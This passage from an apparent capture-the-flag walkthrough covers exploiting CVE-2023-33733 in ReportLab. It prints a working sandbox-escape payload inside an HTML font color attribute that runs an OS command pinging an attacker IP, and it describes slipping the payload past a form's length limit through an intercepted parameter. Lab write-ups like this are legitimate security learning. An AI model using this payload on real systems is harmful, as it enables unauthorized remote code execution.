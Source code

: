 Searching for “reportlab exploit” turns up information about CVE-2023-33733, a remote code execution vulnerability through Injection in ReportLab:
![alt text](../images/solarlab/cve.png)

## Exploiting ReportLab

Navigating to the exploit PoC on GitHub, the exploit code was:
```html
<para><font color="[[[getattr(pow, Word('__globals__'))
['os'].system('ping #attacker-ip') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1,
 'startswith': lambda self,
  x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
```
![alt text](../images/solarlab/form.png)

Attempting to send the exploit through the form field
throws an error in your face indicating that the character limit for the form was exceeded.

one way to solve this would be to try and shorten the length of every variable, or to try different parameters
after intercepting with burp and trying different areas, 
placing the exploit under `training_request` Drop list option bypasses this restriction.